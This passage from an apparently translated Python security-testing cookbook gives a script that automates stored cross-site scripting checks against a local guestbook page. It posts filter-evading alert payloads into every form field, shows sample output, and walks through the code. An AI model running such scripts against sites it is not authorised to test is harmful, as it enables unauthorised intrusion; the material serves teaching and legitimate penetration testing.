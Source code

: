 ```py
import requests
import sys
from bs4 import BeautifulSoup, SoupStrainer
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
initial = requests.get(url)
for payload in payloads:
  d = {}
  for field in BeautifulSoup(initial.text, parse_only=SoupStrainer('input')):
          if field.has_attr('name'):
            if field['name'].lower() == "submit":
              d[field['name']] = "submit"
            else:
              d[field['name']] = payload
  req = requests.post(url2, data=d)
  checkresult = requests.get(url3)

  if payload in checkresult.text:
    print "Full string returned"
    print "Attack string: "+ payload
```

以下是使用此脚本时产生的输出示例，其中包含两个成功的字符串：

```py
Full string returned
Attack string: <script>alert(1);</script>
Full string returned
Attack string: <BODY ONLOAD=alert(1)>
```

## 它是如何工作的…

我们导入我们的库作为时间和时间之前，并建立我们要攻击的 URL。在这里，`url`是带有要攻击的参数的页面，`url2`是要提交内容的页面，`url3`是要读取的最终页面，以便检测攻击是否成功。其中一些 URL 可能是共享的。它们以这种形式设置，因为很难为存储的跨站脚本制作点对点脚本：

```py
url = "http://127.0.0.1/xss/medium/guestbook2.php"
url2 = "http://127.0.0.1/xss/medium/addguestbook2.php"
url3 = "http://127.0.0.1/xss/medium/viewguestbook2.php"
```

然后，我们建立一个负载列表。与基于 URL 的 XSS 脚本一样，负载和检查值是相同的：

```py
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
```

然后，我们创建一个空字典，将负载与每个识别的输入框配对：

```py
d = {}
```
